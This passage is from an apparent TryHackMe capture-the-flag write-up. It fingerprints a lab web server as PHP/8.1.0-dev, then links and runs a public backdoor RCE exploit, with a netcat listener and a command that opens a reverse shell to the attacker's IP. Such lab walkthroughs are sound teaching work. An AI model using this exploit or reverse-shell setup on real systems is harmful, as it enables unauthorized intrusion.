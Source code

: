## HTTP (port 30679)

Let's start with the web page running on port 30679 just because of the title ("FRANK RULEZZ!").

The main page reveals some info about what the site was built with:

~~~
└─$ curl -s "http://$IP:30679/"  | html2text
****** FRANK's WORLD DOMINATION RESTART! ******

There is no way they will break in this time!
This site is built with STATE-OF-THE-ART PHP!! The greatest programming
language ever created!
Also powered by the most advanced and inheirantly secure app deployment
technology:
****** KUBERNETES!!!!!! ******
Using the power of KUBECTL!!!
Pronounced: KUBE + CONTROL! NOT KUBE + CUDDLE!
Because I CONTROL the KUBE! I don't CUDDLE it!
~~~

The site is built with PHP, so let's check out its version to see if it's outdated or not.

There are a few ways to find the version. Nmap scan result has done it already, but you can find it from `http://$IP:30679/info.php` or by checking the response headers:

~~~sh
└─$ curl -s "http://$IP:30679/" -i           
HTTP/1.1 200 OK
Host: 10.10.97.254:30679
Date: Sun, 12 Jun 2022 11:30:49 GMT
Connection: close
X-Powered-By: PHP/8.1.0-dev
Content-type: text/html; charset=UTF-8
[...]
~~~

Anyways, the PHP version is `PHP/8.1.0-dev`.

With a little google search, we can find out about an RCE (Remote Code Execution) in this version. The RCE comes from a backdoor, which was the result of a breach. You can read the full story [here](https://systemweakness.com/php-8-1-0-dev-backdoor-b262206d9b7f). It's kinda cool!

## Reverse Shell

The article that I linked above, has an exploit that instantly gives us a reverse shell. How amazing is that. You can get the exploit [here](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py).

Copy the exploit to your machine, and let's test if it works. First start a listener (`rlwrap nc -lvnp 4444`) and then add your thm IP and your target machine's IP to the following command and run it:

~~~sh
$ python3 revshell_php_8.1.0-dev.py http://<TARGET MACHINE IP>:30679/ <YOUR THM IP> 4444
~~~
